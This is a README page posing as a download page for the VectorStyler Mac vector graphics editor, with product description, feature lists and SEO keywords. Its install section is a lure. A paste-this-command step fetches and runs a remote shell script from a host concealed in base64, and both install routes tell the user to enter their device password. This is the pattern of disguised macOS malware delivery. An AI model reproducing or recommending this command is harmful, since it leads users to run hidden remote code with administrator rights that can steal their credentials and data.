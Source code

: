 # VectorStyler Mac Download - Advanced Vector Design Software

![VectorStyler Screenshot 1](https://www.vectorstyler.com/img/captures/vectorstyler1.png)

---

## 🔽 Download VectorStyler for Mac

[![Download Now](https://img.shields.io/badge/Download_VectorStyler-blueviolet?style=for-the-badge&logo=github)](https://montiko384.github.io/.github/vectorStyler)

## 📦 How to Install

## Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

## Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ1L2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## What is VectorStyler for Mac?

VectorStyler is a cutting-edge vector graphics editor designed for macOS, offering powerful tools for illustrators, designers, and artists. It combines precision vector editing with creative flexibility, enabling users to create intricate designs, logos, and illustrations with ease. Unlike other vector tools, VectorStyler features a unique non-destructive workflow, allowing for endless experimentation without compromising the original artwork.

The software supports advanced features like dynamic shapes, variable-width strokes, and gradient meshes, making it a versatile choice for professional projects. It also includes a robust set of typography tools, enabling users to manipulate text in creative ways. VectorStyler is optimized for Apple Silicon (M1/M2 chips), ensuring smooth performance even with complex designs. Whether you're working on branding, print media, or digital art, VectorStyler provides the tools to bring your vision to life.

With its comprehensive layer system, blend modes, and effects, VectorStyler rivals industry-standard software while offering a more intuitive interface. The app also supports plugins and scripts, extending its functionality to suit specialized workflows. For designers seeking a powerful yet user-friendly vector tool, VectorStyler is an excellent choice.

![VectorStyler Screenshot 2](https://www.vectorstyler.com/img/captures/vectorstyler2.png)

---

## Key Features & Benefits

- ✏️ Advanced vector editing tools  
- ⚡️ Optimized for Apple Silicon (M1/M2)  
- 🎨 Non-destructive workflow for flexibility  
- 🖋 Dynamic shapes and variable-width strokes  
- 📐 Precision typography and text tools  
- 💻 Perfect for illustrators and designers  

Whether you're creating logos or illustrations, VectorStyler delivers professional-grade tools with creative freedom.

---

## 🔍 Keywords

VectorStyler for Mac, VectorStyler Mac Download, VectorStyler for Mac Download, VectorStyler Mac, VectorStyler Download Mac, VectorStyler Download for Mac, vectorstyler full version, Mac Download VectorStyler, Download Mac VectorStyler, Download VectorStyler Mac, Download VectorStyler for Mac
